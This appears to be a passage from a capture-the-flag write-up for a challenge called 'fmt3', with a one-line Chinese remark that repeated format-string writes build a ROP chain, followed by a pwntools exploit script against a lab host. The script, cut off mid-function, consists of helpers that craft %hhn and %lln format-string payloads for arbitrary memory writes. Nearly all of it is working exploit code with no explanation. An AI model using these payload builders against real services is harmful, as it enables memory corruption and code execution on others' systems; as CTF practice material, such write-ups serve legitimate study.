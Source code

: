 

## fmt3

无限次fmt写ROP链，没啥好说的。

```py
from pwn import *
context(os="linux",arch="amd64",log_level="debug")
work_path="../dist/"
elf_name="fmt3"
libc_name="libc.so.6"
remote_addr="192.168.3.253"
remote_port=52002
elf_path=work_path+elf_name
libc_path=work_path+libc_name

if remote_addr!="": s=remote(remote_addr,remote_port)
else: s=process(elf_path)
elf=ELF(elf_path)
if libc_name!="": libc=ELF(libc_path)
def fmtstring(prev,word,index):
    if word==prev:
        result=0
        fmtstr=""
    elif word==0:
        result=256-prev
        fmtstr=f"%{result}c"
    elif prev<word:
        result=word-prev
        fmtstr=f"%{result}c"
    elif prev>word:
        result=256-prev+word
        fmtstr=f"%{result}c"
    fmtstr+=f"%{index}$hhn"
    return [fmtstr.encode(),result]
def fmt64(offset,original_offset,addr,content,inner=False):
    payloada=b""
    prev=0
    i=0
    if content==0:
        payload=f"%{offset+1}$lln".encode().ljust(8,b"A")+p64(addr)
        return payload
    while (content>>(i*8))>0:
        retl=fmtstring(prev,(content>>i*8)&0xff,offset+i)
        payloada+=retl[0]
        prev+=retl[1]
        prev&=0xff
        i+=1
    while len(payloada)%8!=0:
        payloada+=b"a"
    if offset==original_offset+len(payloada)/8 and inner:
        return payloada
    payload=fmt64(offset+1,original_offset,addr,content,True)
    if inner:
        return payload
    for ii in range(i):
        payload+=p64(addr+ii)
    return payload
def send_fmt(content,flag=False,exit_flag=False):
    s.sendlineafter(b"content: ",content)
    if flag:
        dat=s.recvline()[:-1]
    if exit_flag:
```
